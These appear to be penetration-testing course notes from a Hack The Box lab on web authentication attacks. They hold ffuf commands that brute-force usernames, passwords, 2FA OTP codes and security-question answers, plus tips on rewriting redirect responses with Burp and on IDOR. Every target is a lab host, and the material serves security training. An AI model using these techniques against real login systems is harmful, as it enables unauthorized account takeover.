 ## User Enumeration
Brute-forcing

### Response Timing
[[Whitebox_Attacks]]

[[Important_Payloads_PWD_BruteForce.pdf]]

## Custom Payload (Policies)
```shell-session
alakin2504@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

alakin2504@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

## ffuf
### Username Enum
```
ffuf -w ./custom_wordlist.txt -u http://94.237.59.98:57232/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

### Password Enum
```shell-session
ffuf -w ./custom_wordlist.txt -u http://94.237.51.67:42649/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials"
```

## Sequence/OTP
```shell-session
alakin2504@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

```
ffuf -w ./tokens.txt -u http:/94.237.52.55:35653/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=702kuhgh2p5079h85svk9p8cr4" -d "otp=FUZZ" -fr "Invalid OTP."
```

OTP bruteforce

https://www.cirt.net/passwords => Default passwords DB

## Questions Bruteforce
```shell-session
alakin2504@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

File in question: https://github.com/datasets/world-cities/blob/main/data/world-cities.csv

```shell-session
alakin2504@htb[/htb]$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt

alakin2504@htb[/htb]$ wc -l city_wordlist.txt 

26468 city_wordlist.txt
```

## Niche
### Response

A niche technique is to use Burp to intercept response.

Some application will send back 302 when accessing authorized-only endpoints without a session

We can intercept response to change to 200

### IDOR
Some app needs to have valid user_id in param to go to auth page like /admin.php?id=356

without id, it redirects to login

